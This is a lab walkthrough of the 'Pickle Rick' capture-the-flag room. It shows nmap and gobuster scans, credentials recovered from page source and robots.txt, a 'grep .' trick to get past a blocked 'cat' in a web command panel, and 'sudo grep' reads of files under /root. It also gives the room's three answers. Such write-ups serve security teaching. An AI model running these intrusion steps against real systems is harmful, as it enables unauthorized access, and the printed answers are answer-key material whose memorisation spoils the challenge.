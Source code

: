 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
---
```


## Task 1: Pickle Rick
### What is the first ingredient that Rick needs?
Let's perform a simple `nmap` scan to see which ports are open.
```
$ nmap -sC -sV 10.10.88.164
Starting Nmap 7.92 ( https://nmap.org ) at 2023-11-11 14:52 IST
Nmap scan report for 10.10.88.164
Host is up (0.13s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b0:56:f1:d5:f7:ee:f0:9f:0f:9f:07:88:c6:56:7a:29 (RSA)
|   256 ef:9b:c2:3f:b3:84:8d:22:5e:d2:b4:09:59:ba:be:15 (ECDSA)
|_  256 0d:2a:4f:24:a0:9f:3d:20:80:31:b8:51:42:29:a7:0f (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.91 seconds
```
There are two open ports:

| Port | Service |
| ---- | ------- |
| 22   | ssh     |
| 80   | http    |

Let's enter the IP address in the browser and see what comes up.

![2](https://github.com/Knign/Write-ups/assets/110326359/8aaa26f6-2805-47a9-a9e9-4f7d5f146ace)

Let's check the page source for more information.

![3](https://github.com/Knign/Write-ups/assets/110326359/be514f8f-df42-42f2-b747-5bb8b4a343cf)

So we have a username now: `R1ckRul3s`. However we don't know the password yet.

On most websites, the `robots.txt` file does the job of disallowing web crawlers from accessing particular pages. Let's see if we can find anything there.

![4](https://github.com/Knign/Write-ups/assets/110326359/1ab0843f-c6f0-441a-a2ee-dd96cddc3716)

Looks like `Wubbalubbadubdub` is the password.

But where should we enter these credentials?
In order to find the login page we will have to perform some directory brute-forcing. There are various tools available, but in this case let's use `gobuster`.
```
$ gobuster dir -u http://10.10.88.164 -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt -x php
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.88.164
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 291]
/login.php            (Status: 200) [Size: 882]
/assets               (Status: 301) [Size: 313] [--> http://10.10.88.164/assets/]
/portal.php           (Status: 302) [Size: 0] [--> /login.php]

<SNIP>
```
We can see a `/login.php` file. Let's go to the file in the browser.

![5](https://github.com/Knign/Write-ups/assets/110326359/b7853f1d-fbc0-4ecb-ad1c-d2bff3fb09e3)

Let's enter the credentials that we found before i.e. `R1ckRul3s` as username and `Wubbalubbadubdub` as the password.

![6](https://github.com/Knign/Write-ups/assets/110326359/47807896-3cb1-4374-922a-b55e7bb4378e)

We're in and we have a `Command Panel` to enter our commands.

We can use the `ls` command to list the files and subdirectories.

![7](https://github.com/Knign/Write-ups/assets/110326359/4e153ed7-49bd-498c-91d0-8ea6cd04720f)

The `Sup3rS3cretPickl3Ingred.txt` file seems interesting. Let's `cat` the contents of that file.

![8](https://github.com/Knign/Write-ups/assets/110326359/3fa9ddc0-5d16-489c-a440-726ff8a027b9)

Oh! So `cat` is disabled. We have to find another way to read the file.

We can `grep` all the contents of the file by using the `.` regular expression.
```
grep . Sup3rS3cretPickl3Ingred.txt
```

![9](https://github.com/Knign/Write-ups/assets/110326359/224248e8-51b4-4c9f-84e0-ce59a108cebd)

### Answer
```
mr. meeseek hair
```

&nbsp;

### What is the second ingredient in Rick’s potion?
We can check which user are present by using the following command:
```
cd /home ; ls
```

![10](https://github.com/Knign/Write-ups/assets/110326359/082c2c36-7474-427b-8af6-4b067f56973f)

Let's check what files `rick` has using the following command:
```
cd /home/rick ; ls
```

![11](https://github.com/Knign/Write-ups/assets/110326359/5f9aae7a-1551-49d2-8e58-b52001af6882)

Let's see what is in to the `second ingredients`.
```
grep . /home/rick/"second ingredients"
```

![12](https://github.com/Knign/Write-ups/assets/110326359/42962fdd-8d88-4e10-b720-a15542dd42bf)

### Answer
```
1 jerry tear
```

&nbsp;

### What is the last and final ingredient?
Let's look at the `/root` directory using the following command:
```
sudo ls /root
```

![13](https://github.com/Knign/Write-ups/assets/110326359/f0ca0ca7-10cb-4d6e-b473-825d342c0e58)

As always, we can use `grep` to read the contents of a file.
```
sudo grep . /root/3rd.txt
```

![14](https://github.com/Knign/Write-ups/assets/110326359/33d34bd6-679a-4193-b1e0-f473cb9fb191)

### Answer
```
fleeb juice
```
